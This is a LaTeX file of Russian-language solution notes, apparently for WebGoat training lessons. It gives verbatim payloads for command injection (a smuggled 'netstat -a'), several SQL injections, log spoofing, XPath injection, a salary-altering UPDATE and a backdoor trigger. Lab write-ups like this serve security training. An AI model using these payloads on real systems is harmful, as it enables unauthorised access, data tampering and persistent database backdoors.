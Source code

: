 \documentclass{article}
\begin{document}
\begin{enumerate}
\item Command injection

Перехватываем запрос, добавляем к имени файла строку:
\begin{verbatim}
%22%3B%20netstat%20-a
\end{verbatim}

\item Numeric SQL injection

Перехватываем запрос. Модифицируем:

\begin{verbatim}
station=101or%201%3D1&SUBMIT=Go!
\end{verbatim}

\item Log spoofing

Перехватываем запрос, меняем имя на следующее:
\begin{verbatim}
somename
Admin succefully entered!
\end{verbatim}

В результате, в логе создается видимость того, что админ авторизоавлся.

\item XPath Injection 

К имени добавляем:
\begin{verbatim}
' or 1=1 or 'a'='a
\end{verbatim}

Почему-то не работает без or 1=1

\item SQL Injection

Перехватываем сообщение. В качестве пароля вводим:
\begin{verbatim}
azaza%27%20OR%20%271%27%3D%271
\end{verbatim}

При попытке получить данные на втором шаге получаем сообщение:
\begin{verbatim}
THIS LESSON ONLY WORKS WITH THE DEVELOPER VERSION OF WEBGOAT
\end{verbatim}

\item String sql injection

Аналогично. Вместо имени вводим azaza' OR 'a' = 'a. Получаем все возможные значения.

\item Modify Data with SQL INJECTION

Вместо имени вводим:
\begin{verbatim}
azaza'; UPDATE salaries SET salary=1000000 WHERE userid='jsmith
\end{verbatim}

Получаем на счету миллион.

\item Database backdoors

По такой же схеме можно добавлять и триггеры:
\begin{verbatim}
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON employee FOR EACH ROW BEGIN UPDATE employee SET email='john@hackme.com' WHERE userid = NEW.userid
\end{verbatim}
\end{enumerate}
\end{document}
